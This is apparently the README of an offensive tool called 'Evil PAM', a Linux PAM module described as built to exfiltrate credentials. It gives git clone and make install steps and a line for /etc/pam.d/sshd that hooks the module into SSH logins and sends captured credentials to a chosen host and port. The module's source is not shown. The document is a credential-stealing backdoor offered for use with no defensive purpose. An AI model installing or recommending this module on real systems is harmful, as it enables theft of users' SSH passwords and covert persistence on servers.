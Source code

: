 # Evil PAM
PAM module to exfiltrate credentials

## Usage

Install the module:
```
git clone https://github.com/itasahobby/pam_evil.git
make install
```

Configure SSH to use the PAM module adding the following to `/etc/pam.d/sshd`:
```
auth       optional     pam_evil.so target=127.0.0.1 port=8888
```

## Mentions
In colaboration with [Dreg](https://github.com/David-Reguera-Garcia-Dreg/)

## References
* https://web.archive.org/web/20190523222819/https://fedetask.com/write-linux-pam-module/
* https://unix.stackexchange.com/questions/428437/pam-pam-sm-authenticate-try-to-get-get-user-and-password-of-non-esixting-users

## Mentions
Idea inspired by Dreg
